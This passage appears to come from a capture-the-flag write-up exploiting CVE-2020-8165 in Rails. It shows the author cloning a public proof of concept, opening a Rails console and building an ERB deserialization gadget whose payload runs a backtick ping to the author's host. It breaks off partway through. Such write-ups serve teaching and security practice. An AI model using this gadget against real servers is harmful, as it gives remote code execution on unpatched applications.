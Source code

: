 To start the Rails console, I'll need an application to play with, so
I'll use the one from the POC GitHub.



    df@buntu:~$ git clone https://github.com/masahiro331/CVE-2020-8165.git
    Cloning into 'CVE-2020-8165'...
    remote: Enumerating objects: 96, done.
    remote: Counting objects: 100% (96/96), done.
    remote: Compressing objects: 100% (74/74), done.
    remote: Total 96 (delta 13), reused 88 (delta 9), pack-reused 0
    Unpacking objects: 100% (96/96), 1.02 MiB | 6.33 MiB/s, done.
    df@buntu:~$ cd CVE-2020-8165/
    df@buntu:~/CVE-2020-8165$ bundle install --path venndor/bundle
    Warning: the running version of Bundler (1.17.2) is older than the version that created the lockfile (1.17.3). We suggest you upgrade to the latest version of Bundler by running `gem install bundler`.
    The dependency tzinfo-data (>= 0) will be unused by any of the platforms Bundler is installing for. Bundler is installing for ruby but the dependency is only for x86-mingw32, x86-mswin32, x64-mingw32, java. To add those platforms to the bundle, run `bundle lock --add-platform x86-mingw32 x86-mswin32 x64-mingw32 java`.
    Fetching gem metadata from https://rubygems.org/............
    Fetching gem metadata from https://rubygems.org/.
    Resolving dependencies...
    Fetching rake 13.0.1
    Installing rake 13.0.1
    Fetching concurrent-ruby 1.1.6
    Installing concurrent-ruby 1.1.6
    ...[snip]...



Now I can run the console:



    df@buntu:~/CVE-2020-8165$ bundle exec rails console
    Running via Spring preloader in process 132700
    Loading development environment (Rails 5.2.3)
    irb(main):001:0>



I'll start with a payload that will `ping` my host to see that it works:



    irb(main):001:0> code = '`ping -c 1 10.10.14.19`'
    => "`ping -c 1 10.10.14.19`"



The next few lines are just copied from the POC:



    irb(main):002:0> erb = ERB.allocate
    => #<ERB:0x00005565f02ea080>
    irb(main):003:0> erb.instance_variable_set :@src, code
    => "`ping -c 1 10.10.14.19`"
    irb(main):004:0> erb.instance_variable_set :@filename, "1"
    => "1"
    irb(main):005:0> erb.instance_variable_set :@lineno, 1
    => 1
